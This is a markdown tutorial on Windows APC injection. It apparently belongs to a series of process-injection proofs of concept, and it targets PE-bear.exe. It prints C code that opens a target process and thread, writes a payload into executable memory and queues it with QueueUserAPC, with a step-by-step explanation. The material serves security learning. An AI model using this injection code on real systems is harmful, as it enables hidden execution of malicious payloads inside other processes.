

# Asynchronous Procedure Call(APC) Injection
Asynchronous Procedure Call (APC) Injection is a technique used to execute malicious code within the context of a targeted process by manipulating `Asynchronous Procedure Calls`, which are a mechanism used in Windows operating systems to execute code asynchronously within a thread's context. 

APCs, or `Asynchronous Procedure Calls`, are a fundamental mechanism used in Windows operating systems to allow for asynchronous execution of code within the context of a specific thread. They are an essential part of the Windows Kernel's Executive subsystem, providing a means for inter-process and intra-process communication. An `Asynchronous Procedure Call` (APC) is a function that executes asynchronously. APCs execute within the context of a particular thread. 

> Note that for this PoC, we are using `PE-bear.exe` instead of `notepad.exe`.

## The Code
The main function for this code looks like all other examples:
```c
int main() {
    DWORD pid = find_pid(TARGET);
    printf("[i] %s: %d\n", TARGET, pid);
    int result = inject_apc(pid);
    return 0;
}
```

We find the Process ID of the target process and pass it to the `inject_apc()` function where the injection takes place. The `inject_apc()` function has the following structural code:

```c
int inject_apc(DWORD pid) {
    CONTEXT ctx;
    DWORD dResult;
    BOOL bResult;
    DWORD bWritten = 0;
    DWORD thId = find_threadid(pid);
    HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, thId);
    HANDLE hProcess = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE, FALSE, pid);
    LPVOID pRemoteCode =  VirtualAllocEx(hProcess, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
    bResult = WriteProcessMemory(hProcess, pRemoteCode, (PVOID) payload, (SIZE_T) payload_len, (SIZE_T *) &bWritten);
    dResult = QueueUserAPC((PAPCFUNC)pRemoteCode, hThread, NULL);
    dResult = WaitForSingleObject(hThread, -1);
    CloseHandle(hProcess);
    CloseHandle(hThread);
    return 0;
}
```

First, we go ahead and find a thread in the target process which we can acquire a handle to with the `THREAD_ALL_ACCESS` permissions. Once we have the thread id, we use `OpenThread()` function to get a handle(`hThread`) to it. We then acquire a handle to the target process(`hProcess`), making sure that our handle has the `PROCESS_CREATE_THREAD` permission among the other necessary ones. 

We follow the usual drill of allocating memory in the target process's virtual address space with `VirtualAllocEx()` and copying our payload over with `WriteProcessMemory()`. 

Finally, we come to the heart of the Code: adding a user-mode APC object to the APC queue of the previously selected thread in the target process with the `QueueUserAPC()` function. We pass the following parameters to the function:

- The start address of the memory region holding our payload in the target process's virtual address space (`pRemoteCode`). This is treated as the application-supplied APC function to be called when the specified thread performs an alertable wait operation. 
- Handle to the thread (`hThread`), to the queue of which we would add our APC object.
- A `NULL` value which indicates that no values are passed to the APC function.

Once completed, we enter _Wait-and-Pray_ state where we wait for the thread to finish the tasks at hand and gradually clear the APC queue till it reaches our APC object and executes our payload. This can take a while, so we wait for the thread to enter the signaled state with `WaitForSingleObject()`. 

Compiling and running the program, we are able to run our payload in the context of the target process as such:



Note that for APC injections, it is very difficult to determine when the payload will be triggered (if it is triggered at all) depending upon which thread we are selecting and the already lined up APC objects in the APC queue. Hence, it might not be the most reliable injection method. 